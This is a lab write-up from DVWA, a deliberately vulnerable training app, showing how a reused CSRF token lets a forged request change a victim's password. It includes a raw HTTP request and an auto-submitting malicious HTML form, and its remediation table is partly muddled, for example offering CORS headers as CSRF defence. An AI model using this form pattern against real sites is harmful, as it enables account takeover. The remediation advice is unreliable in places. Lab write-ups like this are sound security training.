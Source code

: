 ```
Reported by: Mikail Kakabayev
Date: 2025/06/30
```

## **<span style="color: red">Vulnerability:</span>** Cross-Site Request Forgery (CSRF) Token Theft via FORM input

**Lab:** *DVWA (Damn Vulnerable Web Application)*

**Risk:** *<span style="color: red">HIGH</span>*

**Endpoint:** `http://localhost/dvwa/vulnerabilities/csrf/index.php`

---

### *Description:*

The application's Token can be theft via `<form />` input and reused a forged request to change victim's password without their consent.

### *Impact:*

An attacker can:

 - Steal a valid CSRF Token (e.g. via `<form />` inspection).
 
 - Craft a malicious request to change victim's password.
 
 - Gain full account compromise (if victim is an admin).


### ***Steps to Reproduce:***
1. Log in to DVWA (security level: high).  
2. Inspect the password change form (`user_token` is exposed).  
3. Copy the token and craft a malicious HTML page.  
4. Victim visits the page → password changes automatically.  

### *Proof of Concept (PoC):*

**1.** Inspect the `<input />` form and check the **HTML** code:

![Local Image](./dvwa_csrf_high.png)

**2.** Reuse the Token in malicious Request:

```http
GET /dvwa/vulnerabilities/csrf/index.php?password_new=2323&password_conf=2323
&Change=Change&user_token=b4b8e4ede8eb727a0d6663f01675cb33 HTTP/1.1

Host: localhost
Cookie: PHPSESSID=55i53fq0buq899p69di6sv97pl; security=high
Sec-Ch-Ua: "Not.A/Brand";v="99", "Chromium";v="136"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
...
```
**3.** Craft a malicious `form`:


```html
<html>
  <body>
    <form action="https://localhost/dvwa/vulnerabilities/csrf/index.php">
      <input type="hidden" name="password&#95;new" value="2323" />
      <input type="hidden" name="password&#95;conf" value="2323" />
      <input type="hidden" name="Change" value="Change" />
      <input type="hidden" name="user&#95;token" value="b4b8e4ede8eb727a0d6663f01675cb33" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

**Trigger:** Victim visits the page -> password is silently changed.


### *Root Cause Analysis:*

|   Issue	|  Solution
|---	|---
|   Token is not-tied to user session	|   "Use server-side session storage to bind tokens to users"
|   no SameSite lax/strict    |   "Use server-side session storage to bind tokens to users."
|   no CORS header    |   "Use Access-Control-Allow-Origin: trusted-site.com to block cross-origin requests."
|   no Referer/Origin headers   |   "Validate Origin: https://trusted-site.com server-side."